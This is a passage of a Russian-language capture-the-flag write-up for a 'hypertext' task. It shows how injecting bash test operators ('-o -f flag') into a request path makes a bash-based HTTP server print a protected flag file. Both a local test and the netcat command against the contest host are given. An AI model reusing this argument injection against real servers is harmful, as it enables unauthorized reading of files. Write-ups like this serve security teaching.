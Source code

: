 То есть `cat` сначала выведет всё, а потом уже ругнётся — поэтому `trap ... ERR` в коде не помешает получить содержимое файла `/flag`.

Попытаемся скрафтить такой `Path`, чтобы условия выполнились, и чтобы он содержал в себе `flag` как отдельное слово, чтобы `cat` вывел его содержимое.

У `[` есть интересная фича — логические условия.

```shell
$ help test
...
    Other operators:
    
      -o OPTION      True if the shell option OPTION is enabled.
      -v VAR         True if the shell variable VAR is set.
      -R VAR         True if the shell variable VAR is set and is a name
                     reference.
      ! EXPR         True if expr is false.
      EXPR1 -a EXPR2 True if both expr1 AND expr2 are true.
      EXPR1 -o EXPR2 True if either expr1 OR expr2 is true.
```

Одно из них звучит очень интригующе — `EXPR1 -o EXPR2`: логическое ИЛИ. Если сделать `declare -- Path="хороший-файл -o EXPR2`, где `хороший-файл` — файл, для которого мы можем получить исходный код, и `EXPR2` — какое-то валидное логическое выражение, которое содержит в себе слово `flag`, то сервер должен ответить склеенными `хороший-файл` и `flag`.

Пробуем локально.

```shell
$ echo 'File number one' > one
$ echo 'File number two' > two
$ chmod +x two
$ ./server < <(printf 'GET /one\ -o\ -f\ two HTTP/1.1\n\n') 2>/dev/null
HTTP/1.1 200 ok
X-Powered-By: bash/5.2.37
Connection: close

File number one
File number two
HTTP/1.1 500 internal-server-error
X-Powered-By: bash/5.2.37
Connection: close
Content-Type: text/html

<head><title>500 internal-server-error</title></head><body><h1>500 internal-server-error</h1><img src=https://http.cat/500><hr>bash/5.2.37</body>
```

Работает. Применяем payload на сервере, зная, что `one` — `index.html`, а `two` — `flag`:

```shell
$ nc -v hypertext.q.2025.ugractf.ru 3253 < <(printf 'GET /aa33j9cjswotquex/index.html\ -o\ -f\ flag HTTP/1.1\n\n')
Connection to hypertext.q.2025.ugractf.ru (135.181.93.68) 3253 port [tcp/pda-data] succeeded!
HTTP/1.1 200 ok
X-Powered-By: bash/5.2.37
Connection: close

<HTML>
<HEAD>
<TITLE>ВЭБ 0.7</TITLE>
</HEAD>
<BODY BGCOLOR=909090>
...
</BODY>
</HTML>
#!/usr/bin/env bash
```